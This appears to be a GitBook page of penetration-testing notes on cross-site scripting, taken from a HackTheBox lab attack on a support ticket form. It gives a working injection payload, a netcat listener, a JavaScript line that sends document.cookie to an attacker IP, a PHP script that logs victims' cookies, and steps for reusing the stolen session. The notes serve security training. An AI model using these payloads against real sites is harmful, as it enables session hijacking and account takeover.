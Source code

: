 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# XSS

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.&#x20;
{% endhint %}

We have found a **ticket form** on `support.local.htb` (Figure 1).

<div align="center">

<figure><img src="../../../.gitbook/assets/xss_ticket_form.png" alt="" width="375"><figcaption><p>Figure 1: A form that can we can raise ticket to the support department.</p></figcaption></figure>

</div>

We can first **test** if it is vulnerable to XSS (Figure 2).

{% tabs %}
{% tab title="1. Payload" %}
```javascript
 "><script src=http://10.10.15.131:1337/test</script>
```
{% endtab %}

{% tab title="2. Listener" %}
```bash
nc -lvnp 1337
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/xss_test.png" alt=""><figcaption><p>Figure 2: Testing XSS.</p></figcaption></figure>

Next, we will **steal the cookie** of the person who will process our ticket (Figure 3) by:

1. Creating a script (`index.php`) that will expand the stolen cookie.
2. Creating another script (`script.js`) that will steal the user's cookie, request `index.php` and pass it as a value to `index.php`.&#x20;
3. Passing a payload that will request `script.js`.

{% tabs %}
{% tab title="index.php" %}
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```
{% endtab %}

{% tab title="script.js" %}
```javascript
new Image().src='http://10.10.15.131/index.php?c='+document.cookie
```
{% endtab %}

{% tab title="Python HTTP Server" %}
```bash
python3 -m http.server 80
```
{% endtab %}

{% tab title="Payload" %}
```javascript
"><script src=http://10.10.15.131/script.js></script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/xss_cookie.png" alt=""><figcaption><p>Figure 3: Snatching the support staff's cookie.</p></figcaption></figure>

Adding a new session cookie (Figure 4) and refreshing the page, gives us elevated access (Figure 5).

<div align="center">

<figure><img src="../../../.gitbook/assets/xss_creating_cookie.png" alt=""><figcaption><p>Figure 4: Creating a new session cookie.</p></figcaption></figure>

</div>

<figure><img src="../../../.gitbook/assets/xss_dashboard_access.png" alt=""><figcaption><p>Figure 5: Refreshing the page gives us dashboard access.</p></figcaption></figure>
